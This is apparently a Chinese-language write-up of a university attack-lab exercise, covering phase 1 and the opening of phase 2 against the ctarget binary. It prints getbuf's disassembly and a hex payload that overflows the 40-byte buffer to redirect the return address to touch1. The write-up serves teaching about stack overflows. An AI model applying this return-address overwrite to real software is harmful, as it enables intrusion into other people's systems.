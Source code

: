 ### phase1

作为实验的热身阶段，我们需要输入攻击字符串以执行touch1：

```C
1 void touch1()
2 { 
3 	vlevel = 1; /* Part of validation protocol */ 
4 	printf("Touch1!: You called touch1()\n");
5 	validate(1);
6 	exit(0);
7 }
```

touch1的结构比较简单，其没有参数输入，仅需利用缓冲区破坏使得`test`压入栈帧的地址被替换为`touch1`即可。在这里我们需要知道`getbuf`的缓冲区大小，由`objdump -d ctarget`可以得到：

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 ac 03 00 00       	callq  401b60 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

```

可以看出其缓冲区大小为`0x28`。当输入的字符串的大小超过40时，即可覆盖压入栈帧的返回地址，且覆盖后的返回地址即为字符串第41个元素为起始的与字符值对应的16进制数字序列。因此，我们可以构造如下的`ctarget1`文件以作为`hex2raw`的输入参数：

```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00 /* 0x28 '/0' to fill the stack */
c0 17 40    /* the address of touch1 */
```

### phase2

在该部分，我们需要以特定的参数（cookie的16进制数值表示）执行`touch2`：

```C
1 void touch2(unsigned val)
2 { 
3 	vlevel = 2; /* Part of validation protocol */ 
4 	if (val == cookie) {
5 		printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 		validate(2);
7 	} else {
8 		printf("Misfire: You called touch2(0x%.8x)\n", val);
9 		fail(2);
10 	}
11 	exit(0);
12 }
```
